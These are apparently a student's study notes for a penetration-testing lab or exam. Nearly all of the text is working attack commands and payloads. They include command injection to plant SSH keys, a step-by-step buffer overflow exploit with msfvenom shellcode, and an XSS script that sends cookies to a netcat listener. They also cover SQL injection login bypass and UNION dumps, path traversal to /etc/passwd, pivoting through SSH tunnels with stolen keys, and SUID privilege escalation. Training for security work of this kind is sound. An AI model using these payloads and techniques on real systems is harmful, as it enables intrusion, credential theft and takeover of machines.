 Studying and shit for keygen
; mkdir /var/www/.ssh
; ls lisa /var/www
(in your terminal on linux) ssh-keygen -t rsa (this makes your key)
(terminal) cat ~/.ssh/id_rsa.pub
; echo "THE ENTIRE KEY" >> /var/www/.ssh/authorized_keys (including the first part, and the student@linops)
; cat /var/www/.ssh/authorized_keys
ssh -S /tmp/DEV DEV -O forward -L2222:10.208.50.42:22 SOCKET2
ssh www-data@localhost -p2222
(this may give an error, run the ssh-keygen command it shows)

Instead of /var/www , it may be within a systems user. This could be seen as /home/Comrade/.ssh/authorized_keys
If you are going into someone's ssh known as comrade. This can be applied into the lesson by using the extranet.
################################################################################################################################
Linux python script and such
################################################################################################################################
### Linux
disass <function> #
Certain scripts can take user input ./func <<<$(echo "sjdlfnmlse")
Certain scripts can take parameters ./func $(echo "ojksdmiosdkosf")
gdb ./inventory.exe -> run <<<$(pyhton peebuff.py)

vim
gdb ./func -> run -> info functions -> pdisass main -> pdisass getuserinput
If a system does not have the peda plugin, open-source research the functions and find vulnerabilities.

####
vim lynnbuff.py
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
print(offset)
#####
firefox on linux workstation -> wiremask.eu -> tools -> buffer overflow pattern generator
Instructor pointer is what we are targeting, EIP.
Copy the Hex given, use that HEX to find the offset (Register Value), use that offset to find the actual offset.

After finding the offset, recreate script as
####
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
eip = "BBBB"
print(offset+eip)
#####
type shell in your peda -> env - gdb ./func -> show env -> unset env COLUMNS , unset env LINES -> show env
ctrl + c -> info proc map -> find /b (START HEX AFTER HEAP), (END IN HEX LINE), 0xff, 0xe4
(0xe4 and 0xff are jump locations)
####
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
eip = "BBBB"
print(offset+eip)

'''
HEX1 -> Little Endian (from the back) 
HEX2
HEX3
HEX4
HEX5
'''
#####
type shell in your peda -> env - gdb ./func -> show env -> unset env COLUMNS , unset env LINES -> show env -> run -> ctrl+C DO NOT ENTER
info proc map -> find /b (START HEX AFTER HEAP), (END IN HEX LINE), 0xff, 0xe4
(0xe4 and 0xff are jump locations)
####
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
eip = "\x59\x3b\xde\xf7"
nop = "\x90" * 15
print(offset+eip+nop)

'''
HEX1 -> Little Endian (from the back) 
HEX2
HEX3
HEX4
HEX5
'''
#####
make your eip your first little endian
0xf7de3b59 -> \x59\x3b\xde\xf7"
0xf7f588ab
0xf7f645fb
0xf7f6460f
0xf7f64aeb

quit to leave gbd or shell to go to shell

msfvenom -p linux/x86/exec CMD=whoami -b '\x00' -f python

#####
type shell in your peda -> env - gdb ./func -> show env -> unset env COLUMNS , unset env LINES -> show env
ctrl + c -> info proc map -> find /b (START HEX AFTER HEAP), (END IN HEX LINE), 0xff, 0xe4
(0xe4 and 0xff are jump locations)
####
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
eip = "\x59\x3b\xde\xf7"
nop = "\x90" * 15
buf = 
print(offset+eip+nop+buf)

'''
HEX1 -> Little Endian (from the back) 
HEX2
HEX3
HEX4
HEX5
msfvenom -p linux/x86/exec CMD=whoami -b '\x00' -f python
'''
#####
If there is an error regenerate msfvenom buf lines and reattempt.
./func <<<$(python linbuff.py)

0xf7def000 0xffffe000
################################################################################################################################################################
Cross-Site Scripting:
################################################################################################################################################################
nc -l 127.0.0.1 42070
<script>document.location="http://127.0.0.1:42070/?username=" + document.cookie;</script>


When going from extranet into intra net, you are setting up your localhost like above, the: ssh -S /tmp/DEV DEV -O forward -LLOCALPORT:extranet 
is going to forward your socket that you made (the master socket named DEV) and send it to the extranet IP through the port that you made to forward it (the -L PORT)
Now when you run a localhost ssh ( ssh USERNAMEOFEXTRANET@localhost -p LOCALPORTYOUMADE) it will send you into the extranet.
Things i need to make sure work is doing this with a -D 9050 to send proxychains, but i believe it works. With this you are going to then steal the ssh key OF extranet (cat ~/.ssh/id_rsa.pub)
and save this key that you find into a file named StolenKey, from there you chmod 600 the folder, making sure to double check everything as to not overwrite your ssh key, 
and then you masquerade sshkey to get into the intranet ip you found (cat /etc/hosts , /etc/crontab) Jane will be the device name (intranet) and the IP will be intranet IP.
cat /etc/crontab wioll get you the cronjobs, youll see the backup.tar file in there.
 chmod 600 /home/student/stolenkey
 ssh -i /home/student/stolenkey jane@1.2.3.4
 
scp -P 20010 www-data@localhost:/tmp/backup.gz /home/student/backup.tar.gz
chmod 600 stolenkey1
tar -xvf /home/student/stolenkey1 -C /home/student/stolenkey1_gun

chmod 600 /home/student/stolenkey1_gun/.ssh/id_rsa.pub
ssh -i /home/student/stolenkey1_gun/.ssh/id_rsa Comrade@192.168.150.253 -p 41011

ssh -MS /tmp/hype hype -O forward student@JUMP -L 41010:192.168.28.100:2222
ssh student@localhost -p 41010 -d 9050
ssh comrade@localhost -p 41010 -L 41011:192.168.150.253:3201 -D 9050
ssh -i /home/student/stolenkey/.ssh comrade@localhost -p 41011

To get into the T3, you first need to establish connection to your T1 from your box, this is the master socket. From there you use a localhost login on the local port you opened up to connect to the jump on its open ssh port. You then set up a local port connecting to your T1's socket that now connects to the T3 on its open ssh port, and you can send proxychains up through that as well. Now you masquerade using the T1's ssh key , which is the ssh -i, connecting to the port you set up that sends yourself into the T3.

For dumb S WORD !!!!!!!! <!> <!> <!> ############################################################################################################################################
tar -xvf /home/student/stolenkey1 -C /home/student/stolenkey1_gun
ssh -MS /tmp/jmp student@10.50.11.224 -L 41010:192.168.28.100:2222
ssh www-data@localhost -p 41010 -D 9050 
proxychains nmap -T5 -Pn 192.168.150.253 -p 0-65535 2>/dev/null
chmod 600 /home/student/stolenkey1_gun/.ssh/id_rsa.pub
ssh -i /home/student/stolenkey1_gun/.ssh/id_rsa Comrade@192.168.150.253 -p 41011
ssh -MS /tmp/jmp student@10.50.11.224 -L 41010:192.168.28.100:2222 -L 41011:192.168.150.253:3201


cat /etc/hosts
############################################ PRE-TEST COVER ###################################
First ip address is your target , not a jump box.
Start off by nmapping the given IP, record ports.
Netcat the found ports: nc 10.50.11.179 22
# nmap --script=http-eum 10.50.11.179
firefox -> 10.50.11.179 -> open a tab for every single tab
You can do webpage.login.php?\StuffFoundInEnum and open those files.
#Run an Authentication bypass on the login page. 'OR 1='1 -> ; whoami -> ; cat /etc/passwd , look for users home directory , user2 at bottom
#File to read webpage: ../../../../../../../etc/passwd , /etc/hosts
Malicious File upload: WebEx day 1
Use SSH injection in order to get onto the machine -> ; mkdir -> ssh-kreygen -t rsa -b 4096 -> ; echo "" > /var/www/.ssh/authorized_keys
#ssh -MS /tmp/t1 www-data@10.50.11.179
on PFW machine: for i in {1..255}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done
Setup dynamic tunnel to scan new target: ## ssh -S /tmp/t1 t1 -O forward -D 9050
scan new target: ## proxychains nmap 192.168.28.165,.1,.175
##proxychains nc 192.168.28.165 22 
##ssh -S /tmp/t1 t1 -O forward -L1111:192.168.28.175:2222 -L1112:192.168.38.175:8000
firefox -> 127.0.0.1:1112
Go through options, use GET method in order to find the correct one.
# ?product=7 OR 1=1 -> UNION SELECT 1,2,3,4 # (error means take a number away) -> (1,3,2) table_schema.column,column_name.table_name from information.schema.columns #
Duplicate the tab in order to save information, # UNION SELECT user_id,name,username from siteusers.users #
Rot13 the creds found, this gives you the passwords for the users you found for the next box. 
# ssh -S /tmp/t1 t1 -O forward -L2222:192.168.28.165:22
# ssh -MS /tmp/t2 user3@127.0.0.1 -p 2222
(user credentials for account from ROT13 decode)
#Enumerate new system, cat /etc/hosts, sudo -l, cat /etc/passwd, find / -type f -perm /6000 -ls 2>/dev/null
Go to GTFObins -> Search find -> SUID method -> ./find . -exec /bin/sh -p \; -quit -> id , whoami -> ls /root
Pingsweep on this machine to look for windows box
